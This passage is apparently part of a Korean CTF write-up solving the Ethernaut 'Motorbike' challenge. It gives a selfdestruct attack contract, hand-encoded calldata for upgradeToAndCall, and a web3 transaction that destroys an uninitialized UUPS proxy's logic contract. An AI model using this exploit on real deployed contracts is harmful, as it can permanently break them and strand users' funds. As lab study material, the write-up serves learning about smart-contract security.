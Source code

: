 즉 시그니쳐 값은 0x4f1ef286임을 알 수 있다. 이를 통해서 upgardeToAndCall 함수를 실행할 수 있다. 이제 인자만 넣으면 된다.

이를 위하여 selfdestruct하는 컨트랙트를 생성하고 그 주소와 selfdestruct를 수행하는 함수의 시그니쳐를 인자로 전달해주면 된다.

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.0;

contract MotorbikeAttack {
    function attack() public {
        selfdestruct(payable(address(0)));
    }
}
----------------------------------------------------
주소 : 0x1be47df4400ee907328897d547781D5A6DA419d3
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/15ea44c9-9c2b-46ff-a121-fb5f813afded/Untitled.png)

새롭게 impl로 해줄 공격컨트랙트의 주소는 0x1be47df4400ee907328897d547781D5A6DA419d3, attack()의 시그니쳐는 0x9e5faafc이다. 

이를 [https://adibas03.github.io/online-ethereum-abi-encoder-decoder/#/encode](https://adibas03.github.io/online-ethereum-abi-encoder-decoder/#/encode)온라인 인코더를 통해서 abi 인코딩을 해준다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/78719240-7d90-4181-9761-bc60f67bccd2/Untitled.png)

```solidity
0000000000000000000000001be47df4400ee907328897d547781d5a6da419d3000000000000000000000000000000000000000000000000000000000000004000000000000000000000000000000000000000000000000000000000000000049e5faafc00000000000000000000000000000000000000000000000000000000
```

따라서 각 인자는 32바이트로 위와 같이 표현된다. 이제 이를 시그니쳐 뒤의 인자로 붙여서 data에 넣어주자.

```solidity
    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
```

그리고 이 트랜잭션을 실행하면 로직 컨트랙트에서 우리가 만든 공격 컨트랙트의 selfdestruct(payable(address(0))이 delegatecall로 인해 로직 컨트랙트에서 실행되어 문제의 목적대로 로직 컨트랙트(Engine)가 파괴될 것이다.

```solidity
data2_temp ='0x4f1ef2860000000000000000000000001be47df4400ee907328897d547781d5a6da419d3000000000000000000000000000000000000000000000000000000000000004000000000000000000000000000000000000000000000000000000000000000049e5faafc00000000000000000000000000000000000000000000000000000000'

await web3.eth.sendTransaction({from:player, to: impl , data:data2_temp})

```
